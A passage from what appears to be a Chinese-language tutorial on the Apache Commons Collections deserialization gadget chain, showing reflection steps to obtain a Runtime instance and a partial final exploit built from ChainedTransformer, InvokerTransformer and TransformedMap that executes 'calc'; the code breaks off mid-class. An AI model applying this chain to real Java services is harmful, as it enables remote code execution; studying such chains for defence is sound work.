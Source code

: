 接下来通过 getRuntime() 的原型类获取 invoke 方法并调用，从而拿到 Runtime 类实例对象
```java=
 // 目标是通过 getRuntime() 的原型类调用invoke,最后会得到一个Runtime 类对象
        Class cls = m2.getClass();
        System.out.println(cls);
        Method m3 = cls.getMethod("invoke",new Class[]{Object.class,Object[].class});
        System.out.println(m3);
        System.out.println(m3.invoke(m2,new Class[]{null,null}));
```
![](https://i.imgur.com/Mk4CluH.png)






最后的 exp 如下：

```java=
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;


public class Main {

        public static void main(String[] args) throws Exception{
                
                HashMap<Object, Object> hashMap = new HashMap<>();
                hashMap.put("value", "xxx");
                
                Transformer[] transformers = new Transformer[]{
                        new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                        
                        // 方法名、参数类型、参数值
                        new InvokerTransformer("getMethod",
                                new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),

                        new InvokerTransformer("invoke"
                                , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),

                        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
                };

                ChainedTransformer chainedTransformer  =new ChainedTransformer(transformers);


                Map<Object, Object> decorateMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
                // decorateMap 是一个 TransformedMap 类对象 （class org.apache.commons.collections.map.TransformedMap）

                Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
```